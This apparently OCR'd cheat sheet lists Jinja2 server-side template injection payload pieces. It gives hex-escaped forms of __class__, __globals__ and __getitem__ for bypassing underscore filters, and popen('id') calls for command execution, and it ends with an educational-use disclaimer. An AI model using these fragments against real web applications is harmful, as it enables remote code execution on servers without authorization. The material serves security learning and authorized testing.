 
## 📌 Exploit Development Cheat Sheet

| **Component**          | **Jinja2 Syntax**                                      | **Hex-Escaped Version**                         |
|------------------------|--------------------------------------------------------|--------------------------------------------------|
| Underscore             | `_`                                                    | `\x5f`                                           |
| `__class__`            | `__class__`                                            | `\x5f\x5fclass\x5f\x5f`                          |
| `__init__`             | `__init__`                                             | `\x5f\x5finit\x5f\x5f`                           |
| `__globals__`          | `__globals__`                                          | `\x5f\x5fglobals\x5f\x5f`                        |
| `__getitem__`          | `__getitem__`                                          | `\x5f\x5fgetitem\x5f\x5f`                        |
| Dictionary Access      | `['os']`                                               | `("\x5f\x5fgetitem\x5f\x5f")("os")`              |
| Method Execution       | `popen("id")`                                          | `attr("popen")("id")`                            |

---

## ⚠️ Disclaimer

> This guide is for **educational purposes only**.  
> Do not attempt to exploit SSTI on systems you do not own or have explicit permission to test.  
> **Unauthorized access is illegal** and punishable under cybersecurity laws.
